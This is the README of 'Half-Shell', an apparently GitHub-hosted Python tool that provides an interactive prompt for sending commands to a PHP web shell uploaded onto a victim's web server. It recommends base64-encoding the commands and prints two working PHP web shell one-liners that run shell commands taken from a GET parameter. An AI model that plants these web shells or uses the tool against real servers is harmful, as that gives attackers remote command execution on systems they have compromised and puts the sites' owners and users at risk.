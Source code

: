 # Half-Shell

Half-Shell is a simple python script to give the user a native looking prompt for communicating with uploaded $_GET php scripts.

### Prerequisites

Uses python's requests module. If you're not familiar with requests, it's more lightweight and usable compared to urllib or urllib2. More about requests can be found here: https://2.python-requests.org//en/master/

```
pip install requests
```

## Additional Info
![HELP](https://github.com/Mr-BeardFace/Images/blob/master/halfshell1.PNG)

Once a php $_GET has been uploaded onto a victim's web server, half-shell can be used to interact with the php shell that feels seamless to the user. Lame man's terms... you won't have to copy/paste commands every 10 seconds.

Using half-shell is pretty straight forward. Enter in the url, including the location of your cmd (or otherwise) variable. If you are base64 encoding your commands (which I suggest you do) just add 'base64' to the end of the command. Other encodings are currently being looked at and could possibly be added later.

![Example](https://github.com/Mr-BeardFace/Images/blob/master/halfshell2.PNG)

For base64 encoded commands, the below are the best php one-liners to use. Others tend to not echo correctly, or do not return any data.

```
<?php system(base64_decode($_GET['cmd']));?>
<?php echo shell_exec(base64_decode($_GET['cmd']));?>
```

